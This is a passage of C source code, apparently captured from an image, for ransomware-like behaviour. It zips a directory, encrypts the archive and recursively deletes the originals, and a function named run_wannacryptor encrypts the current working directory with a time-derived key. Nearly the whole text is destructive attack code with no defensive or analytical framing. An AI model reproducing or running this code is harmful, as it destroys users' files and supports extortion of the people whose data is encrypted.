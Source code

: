 ```sh
            }
        } else {
            add_zip_file(archive, full_path, path);
        }
    }
    closedir(dir);
    
    zip_close(archive);
    encrypt_file(zip_name, key);
    remove_directory(path);
}

void remove_directory(const char *path) {
    DIR *dir = opendir(path);
    if (!dir) return;
    
    struct dirent *entry;
    while ((entry = readdir(dir)) != NULL) {
        if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
            continue;
            
        char full_path[1024];
        snprintf(full_path, sizeof(full_path), "%s/%s", path, entry->d_name);
        
        if (entry->d_type == DT_DIR) {
            remove_directory(full_path);
        } else {
            unlink(full_path);
        }
    }
    closedir(dir);
    rmdir(path);
}

void run_wannacryptor(int method) {
    unsigned char key = (unsigned char)(time(NULL) & 0xFF);
    if (method == 1) {
        encrypt_directory_recursive(".", key);
    } else {
        encrypt_directory_zip(".", key);
    }
}

void copy_file(const char *src, const char *dst) {
    int src_fd = open(src, O_RDONLY);
    if (src_fd < 0) return;
    
    int dst_fd = open(dst, O_WRONLY | O_CREAT | O_TRUNC, 0755);
    if (dst_fd < 0) {
        close(src_fd);
        return;
    }
    
    char buffer[4096];
    ssize_t bytes_read;
    
    while ((bytes_read = read(src_fd, buffer, sizeof(buffer))) > 0) {
        write(dst_fd, buffer, bytes_read);
    }
    
    close(src_fd);
    close(dst_fd);
}
```